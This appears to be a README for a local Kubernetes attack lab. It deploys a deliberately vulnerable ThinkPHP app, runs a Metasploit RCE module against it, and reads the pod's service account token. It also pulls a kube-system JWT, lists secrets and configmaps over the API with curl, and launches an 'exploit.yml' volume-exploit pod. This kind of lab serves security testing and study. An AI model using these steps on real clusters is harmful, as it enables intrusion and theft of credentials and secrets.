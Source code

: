 ## Basics

Create resources:

```
kubectl apply -f redis.yaml
kubectl apply -f secrets.yaml
kubectl apply -f thinkphp.yaml
```

Ensure pods are alive:

```
kubectl describe pods
```

Checking secrets:
```
kubectl describe secrets
```

Checking config maps which may also have sensitive information:

```
kubectl describe configmap
```

Dumping JSON:
```
kubectl describe configmap -o json
```

Interacting with a pod:

```
kubectl exec -it redis -- /bin/sh
```

Getting a JWT token for the kube-system namespace:

```
kubectl -n kube-system describe secret default

# For use in CURLs
jwt_token=$(kubectl get secret -n kube-system $(kubectl -n kube-system get serviceaccount default -o jsonpath="{.secrets[0].name}") -o jsonpath="{.data.token}" | base64 --decode)

echo $jwt_token
```

## Thinkphp session

Ensure the pod has been created and alive:
```
kubectl apply -f thinkphp.yaml
kubectl get deployments thinkphp
```

Access the pod from localhost, in lieu of setting up ingress properly:

```
kubectl port-forward deployment/thinkphp 8000:80
```

Run the Metasploit exploit module:

```
use exploit/unix/webapp/thinkphp_rce
run http://localhost:8000
```

Acquire a shell, and verify the service token is in the container:
```
cat /run/secrets/kubernetes.io/serviceaccount/token
```

## Testing volume exploit

```
kubectl delete pod generate-this-later-pod 2>/dev/null; kubectl apply -f ./exploit.yml
```

Directly interacting with it:
```
kubectl exec -it generate-this-later-pod -- /bin/sh
```

## API

The OpenAPI approach looks interesting, as we can generate clients in the same way as Swagger:

https://kubernetes.io/blog/2016/12/kubernetes-supports-openapi/

Note that the namespace would be in the URI `api/v1/namespaces/{namespace_name}/`
You can also retrieve the list of namespaces locally with:

```
kubectl get namespaces
kubectl get namespaces -o json
```

### JWT_TOKEN

Note that the curl examples assume the `jwt_token` is set.

If you're on your host with `kubectl` available:

```
jwt_token=$(kubectl get secret -n kube-system $(kubectl -n kube-system get serviceaccount default -o jsonpath="{.secrets[0].name}") -o jsonpath="{.data.token}" | base64 --decode)

echo $jwt_token
```

If you're in a container already:

```
jwt_token=$(cat /run/secrets/kubernetes.io/serviceaccount/token)
echo $jwt_token
```

### Get namespaces

```
curl --insecure --request GET \
--url 'https://kubernetes.docker.internal:6443/api/v1/namespaces' \
--header "Authorization: Bearer ${jwt_token}"
```

### Get PODs

```
curl --insecure --request GET \
  --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/pods' \
  --header "Authorization: Bearer ${jwt_token}"
```

### Get Secrets

```
curl --insecure --request GET \
  --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/secrets' \
  --header "Authorization: Bearer ${jwt_token}"
```

### Get Configmaps

```
curl --insecure --request GET \
  --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/configmaps' \
  --header "Authorization: Bearer ${jwt_token}"
```

### Create a pod

```
yq -o json e ./exploit.yml |
  curl --insecure -v --request POST \
    --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/pods' \
    --header "Authorization: Bearer ${jwt_token}" \
    --header 'Content-Type: application/json' \
    --data @-
```

### Management

Clean up:

```
kubectl delete deployments,pods,services --all
```

Running the Kubernetes [Dashboard UI](https://kubernetes.io/docs/tasks/access-application-cluster/web-ui-dashboard/):

```
kubectl apply -f https://raw.githubusercontent.com/kubernetes/dashboard/v2.3.1/aio/deploy/recommended.yaml

kubectl proxy
```

Now visit:

http://localhost:8001/api/v1/namespaces/kubernetes-dashboard/services/https:kubernetes-dashboard:/proxy/#/login

To login, use the `jwt_token` mentioned above
